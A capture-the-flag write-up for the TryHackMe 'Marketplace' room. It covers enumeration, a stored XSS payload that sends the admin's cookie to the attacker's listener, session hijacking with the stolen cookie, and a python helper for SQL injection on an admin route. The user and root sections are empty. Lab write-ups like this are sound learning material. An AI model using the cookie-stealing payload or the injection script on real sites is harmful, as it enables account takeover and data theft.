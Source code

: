 # The Marketplace (THM)

- https://tryhackme.com/room/marketplace
- March 25 , 2023
- medium

---

## Enumeration

### Nmap

```
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack nginx 1.19.2
32768/tcp open  http    syn-ack Node.js (Express middleware)
```

### HTTP

- `login` page -> try to enter default credentials like admin:admin -> user not found
- signup page -> create an account

![](screenshots/2023-04-13-22-41-29.png)

- it may be express server
- in new directory, there is an upload field but it is disable (may be at frontend)

![](screenshots/2023-04-13-22-42-49.png)

- remove the disabled and try to upload some image file
- but the upload doesn't work from UI interface

![](screenshots/2023-04-13-22-57-34.png)

- directory brute forcing with ffuf

```
admin -> 403
images -> 301
messages -> 302
stylesheets -> 301
```
- from web crawler found

```
contact/jake
report/1
```
- nothing special in these routes
- check the cookie and it is JWT 

![](screenshots/2023-04-13-22-56-18.png)

- temper with jwt's values such as `admin`, `userId`, `username` and not success
- as the room's tag contains `xss` and try xss

![](screenshots/2023-04-13-22-58-35.png)

- it is vulnerable to stored xss

![](screenshots/2023-04-13-22-59-01.png)

- there is a report route which is known from crawling and which may send message to admin

![](screenshots/2023-04-13-23-10-12.png)

- try to steal admin's cookie by adding payload at `new` page

- create a python server at local machine at port 8888 

```
python -m http.server 8888
```
- enter a payload like this 
```
<script>document.location="http://$TUN0:8888?c="+document.cookie</script>
```
- get request to `item/5` (for me) and check whether the payload is working
  
![](screenshots/2023-04-13-23-13-18.png)

- it works for own cookie and try to send it to admin 

![](screenshots/2023-04-13-23-14-10.png)

- report this 
- one cookie get from request to our server 

![](screenshots/2023-04-13-23-14-49.png)

- replace this with our cookie and we become admin for this site

![](screenshots/2023-04-13-23-16-06.png)

- there is also sqli vulnerability at `/admin?user=` 

![](screenshots/2023-04-13-23-18-13.png)

- I write a python script for easy injection like this

```python
import requests
import re
import sys

inject = sys.argv[1]
url = f"http://$IP/admin?user={inject}"
token = "ADMIN_COOKIE_HERE"
headers = {
    "Cookie": f"token={token}"
}
r = requests.get(url, headers=headers)
result = re.findall(r'<h2>(.*)</h2>', r.text)
# print(r.text)
print(result)
```

![](screenshots/2023-04-13-23-28-23.png)

- there are four columns


## User Access

## Root Access
